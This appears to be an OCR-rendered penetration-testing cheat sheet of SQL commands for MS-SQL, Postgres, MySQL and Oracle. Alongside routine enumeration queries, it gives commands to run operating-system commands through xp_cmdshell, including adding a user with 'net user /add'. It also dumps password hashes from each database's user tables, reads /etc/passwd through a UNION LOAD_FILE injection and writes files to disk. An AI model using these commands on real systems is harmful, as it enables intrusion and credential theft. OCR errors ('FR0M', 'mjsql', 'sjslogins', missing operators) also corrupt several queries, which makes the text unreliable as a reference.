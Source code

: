 # Databases

Ms-sql

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT @@version</td>
      <td style="text-align:left">DB version</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC xp_msver</td>
      <td style="text-align:left">Detailed version info</td>
    </tr>
    <tr>
      <td style="text-align:left">EXEC master..xp_cmdshell &apos;net user&apos;</td>
      <td style="text-align:left">Run OS command</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT HOST_ NAME()</td>
      <td style="text-align:left">Hostname &amp; IP</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DB_ NAME()</td>
      <td style="text-align:left">Current DB</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master..sysdatabases;</td>
      <td style="text-align:left">List DBs</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user name()</td>
      <td style="text-align:left">Current user</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM master .. sjslogins</td>
      <td style="text-align:left">List users</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT name FROM master..sysobjects WHERE</p>
        <p>xtype= &apos;U&apos;;</p>
      </td>
      <td style="text-align:left">List tables</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p></p>
        <p>SELECT name FROM syscolumns WHERE id=(SELECT</p>
        <p>id FR0M sysobjects WHERE name- &apos;mjtable&apos; ) ;</p>
      </td>
      <td style="text-align:left">List columns</td>
    </tr>
  </tbody>
</table>### System table containing info on all tables

```text
SELECT TOP 1 TABLE_NAME FROM INFORMATION SCHEMA.TABLES
```

### List all tables/columns

```text
SELECT name FROM Syscolumns WHERE id
(SELECT id FROM Sysobjects WHERE
name= 'mytable')
```

### Password hashes \(2005\)

```text
SELECT name, password hash FROM master.sys.sgl_logins
```

## Postgres

| **Command** | **Description** |
| :--- | :--- |
| SELECT version\(\); | DB version |
| SELECT inet server\_addr\(\) | Hostname & IP |
| SELECT current database\(\); | Current DB |
| SELECT datname FROM pg database; | List DBs |
| SELECT user; | Current user |
| SELECT username FROM pg\_user; | List users |
| SELECT username,passwd FROM pg shadow | List password hashes |

### List columns

```text
SELECT relname, A.attname FROM pg_class C, pg_namespace N, pg_attribute A,
pg_type T WHERE (C.relkind='r') AND (N.oid=C.relnamespace) AND
(A.attrelid=C.oid) AND (A.atttjpid=T.oid) AND (A.attnum 0) AND (NOT
A.attisdropped) AND (N.nspname ILIKE 'public')
```

### List tables

```text
SELECT c.relname FROM pg_catalog.pg_class c LEFT JOIN
pg catalog.pg namespace n ON n.oid = c.relnamespace WHERE c.relkind IN
( 'r',") AND n.nspname NOT IN ( 'pg catalog', 'pg toast') AND
pg_catalog.pg_table_is_visible(c.oid)
```

## Mysql

| **Command** | **Description** |
| :--- | :--- |
| SELECT @@version; | DB version |
| SELECT @@hostname; | Hostname & IP |
| SELECT database\(\); | Current DB |
| SELECT distinct \(db\) FROM mjsql.db; | List DBs |
| SELECT user\(\); | Current user |
| SELECT user FROM mysql.user; | List users |
| SELECT host,user,password FROM mJsql.user; | List password hashes |

### List all tables & columns

```text
SELECT table schema, table name, column_ name FR0M
information scherna.columns WHERE
table schema != 'mysql' AND table schema != 'information schema'
```

### Execute os command through mysql

```text
osql -S ip , port -U sa -P pwd -Q "exec xp cmdshell `net user /add user
passr`"
```

### Read world-readable files

```text
UNION ALL SELECT LOAD FILE( '/etc/passwd');
```

### Write to file system

```text
SELECT * FROM mytable INTO dumpfile '/tmp/ somefile';
```

## Oracle 

<table>
  <thead>
    <tr>
      <th style="text-align:left"><b>Command</b>
      </th>
      <th style="text-align:left"><b>Description</b>
      </th>
    </tr>
  </thead>
  <tbody>
    <tr>
      <td style="text-align:left">SELECT * FROM v$version;</td>
      <td style="text-align:left">DB version</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT version FROM v$instance;</td>
      <td style="text-align:left">DB version</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT instance name FROM v$instance;</td>
      <td style="text-align:left">Current DB</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name FROM v$database;</td>
      <td style="text-align:left">Current DB</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT DISTINCT owner FROM all_tables;</td>
      <td style="text-align:left">List DBs</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT user FROM dual;</td>
      <td style="text-align:left">Current user</td>
    </tr>
    <tr>
      <td style="text-align:left">
        <p>SELECT username FROM all_users ORDER BY</p>
        <p>username;</p>
      </td>
      <td style="text-align:left">List users</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT column name FROM all_tab_columns;</td>
      <td style="text-align:left">List columns</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT table name FROM all_tables;</td>
      <td style="text-align:left">List tables</td>
    </tr>
    <tr>
      <td style="text-align:left">SELECT name, password, astatus FROM sys.user$;</td>
      <td style="text-align:left">List password hashes</td>
    </tr>
  </tbody>
</table>### List DBAs

```text
SELECT DISTINCT grantee FROM dba_sys_privs WHERE ADMIN_OPTION = 'YES';
```
